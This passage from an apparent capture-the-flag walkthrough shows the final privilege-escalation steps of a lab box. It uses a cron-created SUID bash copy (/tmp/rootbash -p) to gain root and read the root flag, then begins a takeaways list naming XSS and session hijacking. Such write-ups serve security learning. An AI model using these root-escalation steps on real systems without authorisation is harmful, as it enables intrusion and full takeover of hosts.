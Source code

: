 ```bash
exit
```

**Wait approximately 60 seconds for the cron job to execute.**

**For Option 1 (SUID binary):**

```bash
# Check if the file was created
ls -la /tmp/rootbash
```

**Output:**

```
-rwsr-sr-x 1 root root 1474768 Sep 30 08:29 /tmp/rootbash
```

**Execute the SUID bash with preserved privileges:**

```bash
/tmp/rootbash -p
```

**Note:** The `-p` flag is crucial - it tells bash to run in privileged mode, preserving the effective UID.

**For Option 2 (Direct flag extraction):**

```bash
cat /tmp/root_flag.txt
```

### Step 21: Root Flag

**Verify you're root:**

```bash
whoami  # Should output: root
id      # Should show uid=0(root)
```

**Capture the root flag:**

```bash
cat /root/root.txt
```

🚩 **Root flag captured!**

---

## Key Takeaways

### Vulnerabilities Exploited

1. **Cross-Site Scripting (XSS)**
   - Unsanitized user input in bug report feature
   - Led to session hijacking and admin access
